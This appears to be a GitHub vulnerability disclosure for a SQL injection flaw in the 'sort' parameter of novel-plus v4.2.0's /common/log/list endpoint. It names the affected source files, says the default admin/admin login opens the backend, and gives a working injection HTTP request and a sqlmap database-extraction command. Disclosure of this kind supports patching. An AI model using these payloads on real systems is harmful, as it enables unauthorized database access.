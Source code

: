 # Vulnerability Submitter

Name：qinruiqi

GitHub address：https://github.com/JunFengDeng/qinruiqi/edit/main/20231027/vuln/readme.md

# SQL injection vulnerability exists in novel-plus v4.2.0

Affected version: v4.2.0

official website: https://novel.xxyopen.com/index.htm

github: https://github.com/201206030/novel-plus

## Vulnerability Overview

SQL injection vulnerability in Novel-Plus v.4.2.0 allows a remote attacker to execute arbitrary code via a crafted script to the sort parameter in /common/log/list.

## Vulnerability details

Vulnerability route: /common/log/list

Vulnerable parameter: sort

### **Vulnerability source file path 1:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\controller

![1698330555839](../img/1.png)

#### **Vulnerability source file path 2:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\utils\Query.java

![1698330643839](../img/2.png)

#### **Vulnerability source file path 3:**

novel-plus-develop_xxy\novel-admin\src\main\java\com\java2nb\common\service\LogService.java

![1698331147638](../img/3.png)

In the LogController class, the @GetMapping("/list") annotation indicates that this method handles GET requests and returns a PageDO<LogDO> object.
In this method, the params parameters obtained from the @RequestParam annotation will be used to construct a Query object and passed to the logService.queryList(query) method for querying.

#### **Vulnerability source file path 4:**

novel-plus-develop_xxy\novel-admin\src\main\resources\mybatis\common\LogMapper.xml

![1698641784640](../img/4.png)

It can be seen that the sort parameter is not verified, filtered, and escaped. An attacker can use malicious input to inject arbitrary SQL code. 

**POC**

"Login to the backend using the default account username/password 'admin/admin' to obtain the administrator cookie."

![1698338638577](../img/5.png)

SQL injection, closure failed, error displayed

![1698340177810](../img/6.png)

SQL injection, successful closure, normal display  

![1698340057189](../img/7.png)

#### **POC**

```http
GET /common/log/list?limit=10&offset=0&sort=(SELECT+(CASE+WHEN+(1=1)+THEN+''+ELSE+(SELECT+1+UNION+SELECT+2)+END))&username HTTP/1.1
Host: 192.168.52.163:8088
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

Use SQLmap to extract the current database

SQLmap command

```python
python sqlmap.py -u "http://192.168.52.163:8088/common/log/list?limit=10&offset=0&sort=&username=" --cookie "JSESSIONID=0e5249e3-d558-4248-9143-d32e992d4804" -p "sort" --level 3  --current-db --batch
```

![1698340451333](../img/8.png)

